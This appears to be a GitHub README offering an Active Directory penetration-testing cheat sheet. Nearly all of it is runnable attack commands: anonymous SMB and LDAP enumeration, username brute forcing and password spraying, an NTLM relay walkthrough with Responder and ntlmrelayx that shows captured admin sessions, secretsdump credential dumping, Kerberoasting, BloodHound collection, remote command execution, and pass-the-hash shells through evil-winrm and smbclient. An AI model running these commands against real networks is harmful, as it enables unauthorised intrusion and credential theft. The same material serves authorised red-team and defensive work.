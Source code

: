 # AD-Internal-Checklist | Active Direcotry All Cheatsheets and resources. 

## Enumerate the network. 
Enumerating the network is a very important step to discover domain controllers, servers, printers, workstations. 

The first tsep is to do is to get the IP range you are connected to. `ifconfig` / `ipconfig`. Collect as much information as possible about an AD envirement.  The goal is to get valid credentials or atleast a list o valid usernames. 

without creds 

- Nmap: 

```bash
nmap -sP -p <ip>/range # ping scan
```

```bash
nmap -PN -sV -f --open -f <ip>/range # quick scan
```

```bash
nmap -PN -sC -sV -oA <output> <ip> # classic scan
```
Options to bypass firewall `-f / -sS / -PN`

- Crackmapexec (favorit)
 This will enumerate smb null session
 ```bash
 crackmapexec smb 10.10.10.1/24 -u '' -p ''
 ```
 
 This will enumerate anonymouss access to share. 

 ```bash
 crackmapexec smb <ip> -u 'a' -p '' --shares
 ```
- OSINT: you can use open source intelligence to get a list of valid usernames depending on various [active directory naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/)

- LDAP: `ldapsearch -LLL -x -H ldap://test.local -b'' -s base '(objectclass=\*)'`
- LDAP: `nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>` 
- Enum4Linux: `enum4linux -U <dc-ip> | grep 'user:'`
- SMB: Enumerate anonymous and null session: 
```bash
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
python3 smbmap.py --host-file smb-hosts.txt -d test.local -L
```
- SMB: `smbclient -L 172.16.1.0`. To gain access a share: `smbclient  \\\\172.16.1.0\\$share`
- Once you craft a list of possible usernames, you can perform nmap kerberoas bruteforce to get valid ones:  
```bash
kerbrute userenum -d test.local usernames.txt
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip> 
```
 * using crackmapexec: 
  ```bash
  crackmapexec smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
  ```
* Using Rebeus (Windows tool)
  ```bash
  Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt
  ```
* using [kerbrute](https://github.com/ropnop/kerbrute): 
  ```bash
  kerbrute passwordspray -d test.local domain_users.txt password123
  ```
TIP: Crackmapexec is prefered

## NTLM Relay attack 

1 - First, makesure you modify on responder file `/etc/responder/Responder.conf` as below:
```bash
SMB = Off  // Off instead of On
HTTP = Off  // Off instead of On
```
2 - Create a list of hosts within the environment with SMB signing disabled using crackmapexec

```bash
crackmapexec smb IP/RANGE --gen-relay-list targets.txt
wc -l targets.txt #check how many targets you've gathered. 
```
Fire up responeder to capture hashes

 ```bash
responder -I eth1 -d -w
```

3 - fire up `ntlmrelayx` script to relay the obtained hashes

 ```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -debug -socks
```

4 - Check ntlmrelayx if any session was captured.
```bash
ntlmrelayx> socks
Protocol  Target         Username         AdminStatus  Port 
--------  -------- 	 --------         --------     ------
SMB       192.168.1.9    DOM/alice_admin  TRUE         445
SMB       192.168.1.16   DOM/alice_admin  TRUE         445
SMB       192.168.1.17   DOM/alice_admin  TRUE         445
SMB       192.168.1.13   DOM/alice_admin  TRUE         445
SMB       192.168.1.31   DOM/alice_admin  TRUE         445
```
5 - Use proxychains to interact with ntlmrelayx socks fonctionality (1080 is the default port within ntlmrelayx)

```bash
nano /etc/proxychains.conf
[ProxyList]
socks4  127.0.0.1 1080
```

6 - You can basically do whatever you want to do with those sessions

  ```bash
proxychains impacket-smbclient -no-pass DOM/alice_admin@192.168.1.41
proxychains impacket-secretsdump DOM/alice_admin@192.168.1.4
impacket-secretsdump DOM/bob_admin@192.168.1.8
crackmapexec smb 192.168.1.10 -u dom_admin -p dom_admin_password -x whoami
```

## With credentials 

Use the credentials in you favor to enumerate usefull information or gain access to computers maybe get a Domain Admin.

- Get other users. `python3 GetADUsers.py -all test.local/john:password123 -dc-ip 10.10.10.1`
- Get almost all information about an AD envirement:

 ```bash
 crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
 ```
 
  Using ldap

 ```bash
crackmapexec ldap 10.10.10.1 -u 'john' -p 'password123' --trusted-for-delegation --password-not-required --admin-count --users --groups
 ```
 - [windapsearch](https://github.com/ropnop/windapsearch): Look for users with RDP.
 
 ```bash
 python3 windapsearch --dc-ip 10.10.10.1 -u test.local\\john -p password123 -U -G --da -m "Remote Desktop Users" -C -r
 ```
 - bloodhound: 
  There are two methods to do bloodhound. 
 1 Using bloodhound.py. The python version can be useed remotely from an attacker machine: 
 
  ```bash
  python3 bloodhound.py -u john -p password123 -d test.local -v --zip -c All -dc test.local -ns 10.10.10.1
  ```
 PS: the python version requires GPO information.
 
 2 Using ShapHound. 
 Run SharpHound from a PC joined to the domain using your current user and extract all the information you can do:

 ```bash
 ./SharpHound.exe --CollectionMethod All
 Invoke-BloodHound -CollectionMethod All #using SharpHound.ps1
 ```
 The above commands will give you zipped output which you can use in neo4j database. 
 
 - GetNPUsers.py: 
 
 ```bash
 python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
 ```
 - Get a session using [evil-winrm](https://github.com/Hackplayers/evil-winrm). Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host.
 
 ```bash
 evil-winrm -i 10.10.10.1 -u theredtea -p password123 # Or with hash
 evil-winrm -i 10.10.10.1 -u theredtea -H <HASH>
 ```
 
## SMB SHARES

```bash
with credentials : smbclient -L 172.16.1.0  -U=user%password

with credentials access : smbclient \\\\172.16.1.0\\$share  -U=user%password

with ntlm access : smbclient \\\\172.16.1.0\\$share -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local

mount smb share : sudo mkdir /tmp/data; sudo mount -t cifs -o 'user=USER,password=PASSWORD' //10.0.2.80/shareapp /tmp/data
```
